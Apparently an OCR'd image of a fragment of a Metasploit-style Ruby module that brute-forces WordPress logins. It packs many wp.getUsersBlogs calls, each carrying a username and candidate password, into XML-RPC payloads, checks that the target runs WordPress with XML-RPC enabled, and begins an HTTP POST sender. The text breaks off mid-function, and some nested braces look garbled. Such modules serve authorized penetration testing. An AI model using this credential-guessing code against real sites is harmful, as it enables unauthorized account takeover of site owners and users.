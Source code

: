 ```

        pass_group.each  do |pass|
          xml.value {
          xml.struct {
          xml.member {
          xml.name("methodName")
          xml.value { xml.string("wp.getUsersBlogs") }}
            xml.member {
            xml.name("params")
            xml.value {
            xml.array {
            xml.data {
            xml.value {
            xml.array {
              xml.data {
                xml.value { xml.string(user) }
                xml.value { xml.string(pass) }
          }}}}}}}}}
        end

          }}}}}}
      end

      xml_payloads << document.to_xml
    end

    vprint_status('Generating XMLs just done.')
    xml_payloads
  end

  #
  # Check target status
  #
  def check_wpstatus
    print_status("Checking #{peer} status!")

    if !wordpress_and_online?
      print_error("#{peer}:#{rport}#{target_uri} does not appear to be running WordPress or you got blocked! (Do Manual Check)")
      nil
    elsif !wordpress_xmlrpc_enabled?
      print_error("#{peer}:#{rport}#{wordpress_url_xmlrpc} does not enable XML-RPC")
      nil
    else
      print_status("Target #{peer} is running WordPress")
      true
    end

  end

  #
  # Connection Setup
  #
  def send(xml)
    uri  = target_uri.path
    opts =
      {
        'method'  => 'POST',
        'uri'     => normalize_uri(uri, wordpress_url_xmlrpc),
        'data'    => xml,
        'ctype'   =>'text/xml'
      }
    client = Rex::Proto::Http::Client.new(rhost)
```